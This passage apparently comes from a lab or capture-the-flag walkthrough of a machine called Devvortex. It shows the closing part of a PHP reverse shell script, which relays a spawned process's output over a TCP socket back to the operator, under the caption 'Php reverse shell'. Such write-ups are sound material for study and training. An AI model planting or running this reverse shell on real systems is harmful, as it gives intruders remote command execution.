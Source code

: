 ```php
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

![Php reverse shell](/assets/img/Devvortex/Devvortex_05.png)
